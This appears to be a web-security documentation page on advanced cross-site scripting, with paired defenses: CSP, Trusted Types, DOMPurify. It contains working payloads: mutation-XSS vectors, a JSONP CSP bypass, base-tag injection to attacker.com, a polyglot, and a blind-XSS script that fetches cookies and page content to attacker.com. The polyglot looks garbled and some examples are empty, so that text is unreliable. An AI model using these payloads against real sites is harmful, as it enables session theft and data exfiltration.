




# Advanced XSS Attacks

Cross-site scripting (XSS) remains one of the most prevalent web vulnerabilities despite decades of awareness. Modern frameworks like React and Vue mitigate the most basic forms by escaping output by default, but attackers continue to find sophisticated bypass techniques. DOM-based XSS, mutation XSS, CSP bypasses, and framework-specific pitfalls keep XSS relevant even in modern applications.

This page goes beyond the basics to cover the techniques that bypass standard protections and the defenses that actually work.

**Related**: [OWASP A03: Injection](/security/owasp/a03-injection) | [CSP Headers](/security/api-security/csp-headers) | [Advanced Injection](/security/exploits/injection-advanced)

---

## XSS Taxonomy



---

## DOM-Based XSS

DOM-based XSS occurs entirely in the browser. The server never sees the payload — it lives in the URL fragment, `postMessage`, or other client-side data sources and is processed by JavaScript that unsafely modifies the DOM.

### Dangerous Sinks

```javascript
// These DOM APIs execute or render untrusted content

// Direct HTML injection
element.innerHTML = userInput;                        // [!code error]
element.outerHTML = userInput;                        // [!code error]
document.write(userInput);                            // [!code error]

// JavaScript execution
eval(userInput);                                      // [!code error]
setTimeout(userInput, 1000);                          // [!code error]
setInterval(userInput, 1000);                         // [!code error]
new Function(userInput)();                            // [!code error]

// URL-based
location.href = userInput;                            // [!code error]
window.open(userInput);                               // [!code error]
element.src = userInput;       // script, iframe      // [!code error]

// jQuery-specific
$(userInput);                  // if userInput is HTML // [!code error]
$('#el').html(userInput);                             // [!code error]
```

### DOM XSS Example

```javascript
// VULNERABLE: Reading from URL fragment, writing to innerHTML
// URL: https://example.com/search#

const searchTerm = location.hash.substring(1);
document.getElementById('results').innerHTML =                // [!code error]
  `<h2>Results for: ${searchTerm}</h2>`;                      // [!code error]

// The browser executes the onerror handler — XSS achieved
// The payload never hit the server, so server-side sanitization
// would not have caught it

// FIXED: Use textContent instead of innerHTML
const searchTerm = location.hash.substring(1);
const heading = document.createElement('h2');
heading.textContent = `Results for: ${searchTerm}`;           // [!code highlight]
document.getElementById('results').appendChild(heading);
```

---

## Mutation XSS (mXSS)

Mutation XSS exploits the difference between how sanitizers parse HTML and how browsers actually render it. Browsers apply "parser normalization" that can transform seemingly safe HTML into dangerous HTML.

### How mXSS Works



### Example

```html
<!-- Input that a sanitizer might consider safe -->
<!-- (no script tags, no event handlers visible) -->
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></desc></svg>

<!-- How the browser parses it:
     SVG allows CDATA sections, but when the parser switches
     back to HTML context, the CDATA end marker is not recognized,
     causing the <script> tag to be treated as live HTML -->

<!-- Another mXSS vector using namespace confusion -->
<math><mtext><table><mglyph><style><!--</style>


<!-- The nested namespace switching (math → html → math → html)
     confuses sanitizers about which parsing rules apply -->
```

::: warning Why mXSS Is Hard to Prevent
Sanitizers parse HTML using their own parser, but the browser uses a different parser (the HTML5 parsing specification is extremely complex). When these parsers disagree about how to interpret markup, the sanitizer may allow HTML that the browser will render differently — with executable JavaScript.

The only reliable defense against mXSS is to sanitize the HTML **after** the browser has parsed it (i.e., parse it into a DOM tree first, then sanitize the tree).
:::

---

## CSP Bypass Techniques

Content Security Policy (CSP) is the strongest defense against XSS, but misconfigured CSPs can be bypassed.

### Common CSP Weaknesses

```
# WEAK: Allows inline scripts — defeats the purpose of CSP
Content-Security-Policy: default-src 'self'; script-src 'unsafe-inline'

# WEAK: Allows eval() — attackers can use dynamic code execution
Content-Security-Policy: script-src 'self' 'unsafe-eval'

# WEAK: Wildcard subdomain — any subdomain can host attacker's script
Content-Security-Policy: script-src *.example.com

# WEAK: Allows CDN that hosts user-uploadable content
Content-Security-Policy: script-src 'self' https://cdn.jsdelivr.net
# Attacker uploads malicious JS to a public npm package
# jsdelivr serves it: https://cdn.jsdelivr.net/npm/evil-package/xss.js
```

### JSONP Bypass

If CSP allows a domain that serves JSONP endpoints, attackers can use the callback to execute arbitrary JavaScript:

```html
<!-- CSP: script-src 'self' https://trusted-api.example.com -->

<!-- Attacker uses JSONP callback on the trusted domain -->
<script src="https://trusted-api.example.com/jsonp?callback=alert(document.cookie)//">
</script>
<!-- The response is: alert(document.cookie)//({...})
     which is valid JavaScript that executes under the CSP -->
```

### Base Tag Injection

```html
<!-- CSP: script-src 'nonce-abc123' -->
<!-- Attacker cannot inject script tags without the nonce -->
<!-- BUT if they can inject a <base> tag... -->

<base href="https://attacker.com/">
<!-- Now all relative script sources resolve to attacker.com -->
<!-- If the page has <script src="/app.js">, it loads
     https://attacker.com/app.js instead -->
```

### Strong CSP Configuration

```
# STRONG: Nonce-based CSP with strict protections
Content-Security-Policy:
  default-src 'none';
  script-src 'nonce-{RANDOM}' 'strict-dynamic';
  style-src 'self' 'nonce-{RANDOM}';
  img-src 'self' data:;
  font-src 'self';
  connect-src 'self';
  base-uri 'none';
  form-action 'self';
  frame-ancestors 'none';
  require-trusted-types-for 'script';
```

::: tip CSP Best Practices
1. **Use nonce-based CSP**: Generate a random nonce for each response, include it on legitimate script tags
2. **Use `strict-dynamic`**: Allows scripts loaded by nonced scripts, but blocks attacker-injected scripts
3. **Set `base-uri 'none'`**: Prevents base tag injection
4. **Set `object-src 'none'`**: Blocks Flash/Java plugins (legacy but still needed)
5. **Never use `unsafe-inline` or `unsafe-eval`**: These defeat the purpose of CSP
6. **Use `require-trusted-types-for 'script'`**: Enforces Trusted Types API (strongest DOM XSS defense)
:::

---

## XSS in Modern Frameworks

Modern frameworks escape output by default, but every framework has escape hatches that developers misuse.

### React

```jsx
// React escapes all rendered content by default — SAFE
function UserProfile({ name }) {
  return <h1>{name}</h1>;  // Escaped: <script> becomes &lt;script&gt;
}

// DANGEROUS: dangerouslySetInnerHTML bypasses escaping
function Comment({ htmlContent }) {
  return <div dangerouslySetInnerHTML={                // [!code error]
    { __html: htmlContent }                            // [!code error]
  } />;
}

// DANGEROUS: href with javascript: protocol
function Link({ url }) {
  return <a href={url}>Click me</a>;                   // [!code error]
}
// Attack: url = "javascript:alert(document.cookie)"

// SAFE: Sanitize HTML content before rendering
import DOMPurify from 'dompurify';                     // [!code highlight]

function Comment({ htmlContent }) {
  return <div dangerouslySetInnerHTML={
    { __html: DOMPurify.sanitize(htmlContent) }        // [!code highlight]
  } />;
}

// SAFE: Validate URL scheme
function Link({ url }) {
  const safeUrl = url.startsWith('http://') ||
                  url.startsWith('https://')
                  ? url : '#';                          // [!code highlight]
  return <a href={safeUrl}>Click me</a>;
}
```

### Vue

```html
<!-- Vue escapes content in {​{ }} by default — SAFE -->
<template>
  <p>{​{ userInput }}</p>  <!-- Escaped -->
</template>

<!-- DANGEROUS: v-html renders raw HTML -->
<template>
  <div v-html="userInput"></div>   <!-- [!code error] -->
</template>

<!-- SAFE: Sanitize before v-html -->
<template>
  <div v-html="sanitized"></div>
</template>

<script setup>
import DOMPurify from 'dompurify';    // [!code highlight]

const sanitized = computed(() =>
  DOMPurify.sanitize(userInput.value)  // [!code highlight]
);
</script>
```

### Angular

```typescript
// Angular sanitizes by default and has the strictest protection

// SAFE: Interpolation is always escaped
// <p>{​{ userInput }}</p>

// DANGEROUS: Bypassing the sanitizer
import { DomSanitizer } from '@angular/platform-browser';

constructor(private sanitizer: DomSanitizer) {}

// bypassSecurityTrustHtml disables Angular's sanitization   // [!code error]
this.trustedHtml = this.sanitizer
  .bypassSecurityTrustHtml(userInput);                       // [!code error]
```

---

## XSS Polyglots

Polyglots are payloads designed to execute in multiple contexts (HTML, JavaScript, URL, CSS). They bypass defenses that only protect one context:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0telerik%0telerik%0telerik%0telerik//telerik{telerik{telerik{telerik{telerik{telerik{telerik
/telerik</telerik/\telerik<telerik/telerik=telerik>
<telerik telerik=telerik*/telerik
onpointerenter=alert()//>telerik--><telerik>
<script>alert()</script>

<svg/onload=alert()>
```

This single string contains XSS payloads for multiple parsing contexts. When testing for XSS, polyglots help identify which context the input ends up in.

---

## Blind XSS

Blind XSS payloads execute in a context the attacker never directly sees — admin panels, support ticket dashboards, log viewers, email clients, or PDF generators that render HTML.



```html
<!-- Blind XSS payload (phones home when executed) -->
<script>
  // Send the admin's cookies to attacker's server
  fetch('https://attacker.com/collect', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      url: window.location.href,
      dom: document.body.innerHTML
    })
  });
</script>

<!-- Even simpler: image beacon -->

```

::: warning Where Blind XSS Hides
- Support ticket systems (attacker submits ticket, admin views it)
- Error logging dashboards (attacker triggers error with payload in headers)
- Analytics platforms (payload in User-Agent, Referer headers)
- PDF generators that render HTML (invoice, report generation)
- Email clients that render HTML (less common with modern clients)
:::

---

## Trusted Types API

Trusted Types is a browser API that provides the strongest defense against DOM XSS by requiring that dangerous sink assignments use specially created "trusted" values.

```javascript
// Enable Trusted Types via CSP header
// Content-Security-Policy: require-trusted-types-for 'script'

// Without Trusted Types, this works (and is vulnerable)
element.innerHTML = userInput;  // Allowed by default

// With Trusted Types enabled, this THROWS AN ERROR
element.innerHTML = userInput;
// TypeError: This document requires 'TrustedHTML' assignment.

// You must create a Trusted Types policy
const policy = trustedTypes.createPolicy('sanitize', {       // [!code highlight]
  createHTML: (input) => DOMPurify.sanitize(input),          // [!code highlight]
});

// Only trusted values can be assigned to dangerous sinks
element.innerHTML = policy.createHTML(userInput);              // [!code highlight]
// This works because it goes through the sanitization policy
```

---

## Defense Summary



| Defense Layer | What It Prevents | Limitations |
|--------------|-----------------|-------------|
| **Framework auto-escaping** | Reflected and stored XSS in templates | Does not protect escape hatches (dangerouslySetInnerHTML, v-html) |
| **CSP (nonce-based)** | Inline script injection, unauthorized scripts | Requires strict configuration; JSONP/CDN bypasses possible |
| **Trusted Types** | DOM XSS (all dangerous sinks) | Browser support still growing; requires policy definition |
| **DOMPurify** | Stored XSS with HTML content | Must be used consistently; mXSS vectors are an ongoing race |
| **HttpOnly cookies** | Cookie theft via XSS | Does not prevent other XSS impacts (phishing, keylogging) |

::: tip The Defense Stack
1. **Use framework auto-escaping** — never bypass it without sanitization
2. **Deploy strict CSP** — nonce-based with `strict-dynamic`, `base-uri 'none'`
3. **Enable Trusted Types** — prevent DOM XSS at the API level
4. **Sanitize with DOMPurify** — when you must render user HTML
5. **Set HttpOnly and Secure on cookies** — limits cookie theft even if XSS occurs
6. **Use Subresource Integrity (SRI)** — prevents CDN compromise from injecting scripts
:::

---

## Key Takeaways

| Lesson | Implication |
|--------|------------|
| Framework escaping is necessary but not sufficient | Escape hatches, DOM XSS, and mXSS can still occur |
| DOM XSS never touches the server | Server-side sanitization cannot prevent it |
| mXSS exploits parser differences | Sanitizers and browsers parse HTML differently |
| CSP is the strongest XSS defense | But only when configured strictly (no unsafe-inline, nonce-based) |
| Trusted Types are the future | They prevent DOM XSS at the browser API level |
| Blind XSS targets internal tools | Admin panels and dashboards are prime targets |

---

## Further Reading

- [CSP Headers](/security/api-security/csp-headers) — Content Security Policy implementation guide
- [OWASP A03: Injection](/security/owasp/a03-injection) — XSS as an injection vulnerability
- [Advanced Injection Attacks](/security/exploits/injection-advanced) — SSTI, SQLi, and other injection types
- [Exploits Overview](/security/exploits/) — taxonomy and context for all exploit case studies
